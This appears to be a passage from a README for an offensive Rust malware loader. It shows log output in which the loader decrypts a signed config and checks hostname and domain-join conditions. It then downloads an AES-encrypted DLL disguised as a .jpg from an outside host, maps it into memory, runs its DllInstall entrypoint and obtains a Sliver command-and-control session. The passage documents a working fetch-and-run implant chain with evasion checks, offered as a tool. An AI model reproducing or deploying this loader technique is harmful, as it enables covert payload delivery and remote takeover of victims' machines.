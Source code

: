 ```
[2024-11-13T07:10:20Z INFO  loader] [+] DECRYPTED!
[2024-11-13T07:10:20Z INFO  loader] [+] VERIFY initial config
[2024-11-13T07:10:20Z INFO  loader] [+] VERIFIED!
    
[2024-11-13T07:10:20Z INFO  loader] [+] BEGIN LOOP 1 --------------------------------------------------------
list: ["DEBUG-W10"], operator: OR }), DomainJoin(DomainJoin { list: ["sevenkingdoms.local", "essos.local"], operator: AND })], sign_material: SignMaterial { peer_public_key_bytes: [112, 194, 204, 237, 240, 179, 23, 52, 29, 200, 231, 54, 135, 93, 42, 235, 33, 229, 186, 79, 214, 25, 90, 188, 100, 202, 160, 18, 211, 143, 90, 18], sign_bytes: [202, 177, 192, 91, 55, 252, 77, 88, 46, 133, 18, 112, 170, 14, 35, 198, 103, 242, 155, 109, 176, 215, 83, 56, 87, 4, 215, 134, 54, 174, 116, 205, 232, 139, 143, 233, 229, 119, 59, 185, 107, 179, 101, 244, 157, 41, 96, 189, 204, 209, 225, 34, 137, 61, 183, 109, 144, 156, 195, 35, 204, 167, 88, 12] }, sleep: 1, jitt: 1 }
[2024-11-13T07:10:20Z INFO  malleable_rust_loader::loaderconf] sleep: 1.4779852741068524
[2024-11-13T07:10:22Z INFO  loader] [+] DEFUSE RELOAD config
[2024-11-13T07:10:22Z INFO  malleable_rust_loader::loaderconf] 1/1 defuse: CheckInternet(CheckInternet { list: ["https://www.microsoft.com", "https://google.com", "https://login.microsoftonline.com"], operator: AND })
[2024-11-13T07:10:22Z INFO  malleable_rust_loader::link] sleep: 1.6500650048148768
[2024-11-13T07:10:24Z INFO  loader] [+] RELOAD config
[2024-11-13T07:10:24Z INFO  loader] 1/2 config link: HTTP(HTTPLink { url: "https://kaboum.xyz/artdonjon/gobelin.html", dataoperation: [WEBPAGE, BASE64], sleep: 0, jitt: 0 })
[2024-11-13T07:10:24Z INFO  malleable_rust_loader::link] sleep: 0
[2024-11-13T07:10:24Z INFO  loader] verify signature: true
[2024-11-13T07:10:24Z INFO  loader] same loader: true
[2024-11-13T07:10:24Z INFO  loader] [+] DECISION: keep the same active LOADER, and run the payloads
[2024-11-13T07:10:24Z INFO  loader] [+] DEFUSE payload exec
[2024-11-13T07:10:24Z INFO  malleable_rust_loader::loaderconf] 1/2 defuse: Hostname(Hostname { list: ["DEBUG-W10"], operator: OR })
[2024-11-13T07:10:24Z INFO  malleable_rust_loader::loaderconf] 2/2 defuse: DomainJoin(DomainJoin { list: ["sevenkingdoms.local", "essos.local"], operator: AND })
[2024-11-13T07:10:24Z INFO  loader] [+] PAYLOADS exec
[2024-11-13T07:10:24Z INFO  malleable_rust_loader::loaderconf] 1/1 payload: DllFromMemory(DllFromMemory { link: HTTP(HTTPLink { url: "https://kaboum.xyz/artdonjon/donjon_dll.jpg", dataoperation: [AES(AesMaterial { key_bytes: [100, 7, 159, 177, 160, 143, 247, 73, 181, 159, 214, 81, 14, 49, 140, 153, 172, 173, 53, 223, 224, 148, 237, 97, 223, 41, 6, 110, 8, 112, 20, 233], associated_data: [], nonce: 751301581, tag: [105, 138, 234, 91, 135, 162, 172, 126, 187, 13, 130, 83, 80, 91, 3, 137] })], sleep: 0, jitt: 0 }), dll_entrypoint: "DllInstall" })
[2024-11-13T07:10:24Z INFO  malleable_rust_loader::link] sleep: 0
[2024-11-13T07:10:25Z WARN  malleable_rust_loader::payload] Map DLL in memory
[2024-11-13T07:10:25Z WARN  malleable_rust_loader::payload] Retreive DLL entrypoint: DllInstall
[2024-11-13T07:10:25Z WARN  malleable_rust_loader::payload] dll_entry_point()
```

And we got a session in Sliver !

![Sliver session](doc/sliver_session.png?raw=true "Kaboum!")
